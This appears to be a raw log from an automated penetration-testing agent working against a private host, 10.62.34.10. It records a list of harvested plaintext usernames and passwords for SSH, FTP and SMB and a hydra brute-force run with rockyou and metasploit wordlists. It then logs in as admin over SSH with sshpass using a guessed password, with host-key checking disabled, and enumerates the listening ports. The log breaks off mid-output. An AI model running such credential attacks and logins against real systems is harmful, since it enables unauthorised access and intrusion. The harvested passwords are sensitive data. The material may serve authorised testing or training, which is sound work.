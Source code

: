 "}{"credentials":[{"type":"password","login":"admin","password":"666","context":"usmb"},{"type":"password","login":"admin","password":"protect","context":"ssh"},{"type":"password","login":"admin","password":"clock","context":"ftp"},{"type":"password","login":"user","password":"protect","context":"ssh"},{"type":"password","login":"user","password":"666","context":""},{"type":"password","login":"user","password":"clock","context":""},{"type":"password","login":"user","password":"123456","context":""},{"type":"password","login":"uftp","password":"protect","context":""},{"type":"password","login":"uftp","password":"666","context":""},{"type":"password","login":"uftp","password":"clock","context":""},{"type":"password","login":"usmb","password":"protect","context":""},{"type":"password","login":"usmb","password":"666","context":""},{"type":"password","login":"usmb","password":"clock","context":""},{"type":"password","login":"uftp","password":"123456","context":""}],"endpoints":["10.62.34.10:700"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/rockyou.txt -t 4 -w 30 http-get://10.62.34.10:700", "result": "Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).
{"credentials":[],"endpoints":["10.62.34.10"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "sshpass -p 'protect' ssh -o StrictHostKeyChecking=no admin@10.62.34.10", "result": "Welcome to Ubuntu 22.04.5 LTS (GNU/Linux 5.15.0-151-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/pro

 System information as of Sat Aug 30 08:20:50 PM UTC 2025

  System load:  0.08               Processes:               240
  Usage of /:   22.1% of 43.01GB   Users logged in:         0
  Memory usage: 15%                IPv4 address for ens192: 10.62.34.10
  Swap usage:   0%

 * Strictly confined Kubernetes makes edge and IoT secure. Learn how MicroK8s
   just raised the bar for easy, resilient and secure K8s cluster deployment.

   https://ubuntu.com/engage/secure-kubernetes-at-the-edge

Expanded Security Maintenance for Applications is not enabled.

15 updates can be applied immediately.
To see these additional updates run: apt list --upgradable

2 additional security updates can be applied with ESM Apps.
Learn more about enabling ESM Apps service at https://ubuntu.com/esm

New release '24.04.3 LTS' available.
Run 'do-release-upgrade' to upgrade to it.


*** System restart required ***
"}{"credentials":[],"endpoints":["10.62.34.10:137","10.62.34.10:138"],"services":[],"cookies":[],"vulnerabilities":[]}{"command": "sshpass -p protect ssh admin@10.62.34.10 'ss -tulwn'", "result": "Netid State  Recv-Q Send-Q Local Address:Port  Peer Address:PortProcess
icmp6 UNCONN 0      0           *%ens192:58               *:*          
udp   UNCONN 0      0      127.0.0.53%lo:53         0.0.0.0:*          
udp   UNCONN 0      0      10.62.255.255:137        0.0.0.0:*          
udp   UNCONN 0      0        10.62.34.10:137        0.0.0.0:*          
udp   UNCONN 0      0            0.0.0.0:137        0.0.0.0:*          
udp   UNCONN 0      0      10.62.255.255:138        0.0.0.0:*          
udp   UNCONN 0      0        10.62.34.10:138        0.0.0.0:*          
udp   UNCONN 0      0            0.0.0.0:138        0.0.0.0:*          
tcp   LISTEN 0      4096         0.0.0.0:5432       0.0.0.0:*          
tcp   LISTEN 0      4096         0.0.0.0:10050      0.0.0.0:*          
tcp   LISTEN 0      32           0.0.0.0:212        0.0.0.0:*          
tcp   LISTEN 0      50           0.0.0.0:239        0.0.0.0:*          
tcp   LISTEN 0      511          0.0.0.0:80         0.0.0.0:*          
tcp   LISTEN 0      4096         0.0.0.0:112        0.0.0.0:*          
tcp   LISTEN 0      128          0.0.0.0:22         0.0.0.0:*          
tcp   LISTEN 0      4096         0.0.0.0:901        0.0.0.0:*          
tcp   LISTEN 0      50           0.0.0.0:945        0.0.0.0:*          